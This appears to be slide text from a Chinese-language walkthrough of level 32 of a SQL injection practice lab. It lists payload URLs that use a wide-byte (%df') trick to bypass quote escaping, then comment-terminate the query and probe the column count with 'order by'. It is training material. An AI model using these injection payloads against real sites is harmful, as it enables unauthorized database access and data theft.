

# Less-32_01
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
法一：
1. http://127.0.0.1/sqli/Less-32/?id=1 这个时候返回的是正常数据
2. http://127.0.0.1/sqli/Less-32/?id=1’ 此时返回的是经过转义之后的数据，我们通过返回的数据可以看到，单引号已经被转义了
3. http://121.199.30.46/Less-32/?id=1%df‘ 或者http://121.199.30.46/Less-32/?id=1%df%27此时发现出现了注入点，这个时候我们继续
4. http://121.199.30.46/Less-32/?id=1%df’ --+ 这个时候返回正常
5. http://121.199.30.46/Less-32/?id=1%df‘ order by 4 --+ 此时返回与以前的关卡中同样的错误，接下来就是正常的注入操作了。